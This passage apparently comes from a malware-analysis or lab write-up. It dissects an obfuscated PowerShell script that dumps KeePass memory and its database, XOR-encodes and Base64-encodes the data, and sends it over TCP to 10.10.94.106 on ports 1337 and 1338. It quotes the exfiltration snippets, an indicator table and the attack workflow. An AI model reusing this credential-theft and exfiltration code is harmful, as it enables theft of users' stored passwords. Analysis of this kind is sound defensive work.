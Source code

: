   * Targets `KeePass`, a password manager, to dump its memory.

* **Memory dumping and XOR obfuscation:**

  ```powershell
  $duMpBYtES[$i] = $duMpBYtES[$i] -bxor $xoRKEy
  ```

  * Applies XOR to obfuscate data before sending it out.

* **Encoding and exfiltration:**

  ```powershell
  [System.Convert]::ToBase64String($duMpBYtES)
  $ClIENt = New-Object System.Net.Sockets.TcpClient
  $ClIENt.Connect($sERveRIP, $SeRvERpORT)
  ```

  * Encodes memory dump in Base64 and sends it over TCP to `10.10.94.106` on ports `1337/1338`.

* **Multiple layers of obfuscation:**

  * Random variable names and encoding make manual analysis harder.

### 3. How to tell if a PowerShell script is malicious

| Indicator                                | Why it's suspicious                                   |
| ---------------------------------------- | ----------------------------------------------------- |
| Auto-downloads tools                     | Could download malware or legitimate tools for misuse |
| Targets password managers or browsers    | Common credential theft target                        |
| Dumps memory or registry                 | Steals sensitive info from running processes          |
| Encodes/obfuscates data                  | Attempts to evade detection or hide payload           |
| Opens TCP/HTTP connections to unknown IP | Likely exfiltrating stolen data                       |
| Uses random or complex variable names    | Obfuscation, makes detection harder                   |

✅ **Conclusion:** This PowerShell script is malicious. It steals KeePass credentials, obfuscates them, and sends them to a remote server.

---

## Attack Workflow

1. **Downloading and Preparing ProcDump**
2. **Locating the Desktop and the KeePass Process**

   * If KeePass is running: dump its memory, encode the dump, and send it over the network.
3. **Dumping a KeePass Database File**

   * Encode and send the database.

**Note:**

* XOR key for the first encoding: `0x41`, sent to port `1337`.
* XOR key for the second encoding: `0x42`, sent to port `1338`.

---